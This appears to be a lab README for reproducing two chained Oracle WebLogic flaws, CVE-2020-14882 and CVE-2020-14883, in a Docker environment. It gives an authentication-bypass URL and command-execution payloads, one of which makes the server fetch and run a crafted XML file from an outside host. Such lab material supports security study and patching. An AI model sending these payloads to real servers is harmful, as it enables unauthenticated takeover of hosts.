



# Weblogic Unauthentication Remote Command Execution (CVE-2020-14882, CVE-2020-14883)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - October 2020](https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.

CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.

References:

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

Using this URL to bypass the authentication of Console component:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```



At this moment, you don't have permission to upload a webshell:



The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through `com.tangosol.coherence.mvel2.sh.ShellSession`, and the other is through `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`.

Visit the following URL to chain 2 vulnerabilities and execute commands from `com.tangosol.coherence.mvel2.sh.ShellSession`:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` has been successfully executed inside the container:


This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class `com.tangosol.coherence.mvel2.sh.ShellSession`.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.

To exploit the `FileSystemXmlApplicationContext`, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as `http://example.com/rce.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Then through the following URL, Weblogic would load this XML and execute the commands in it:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```



The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.
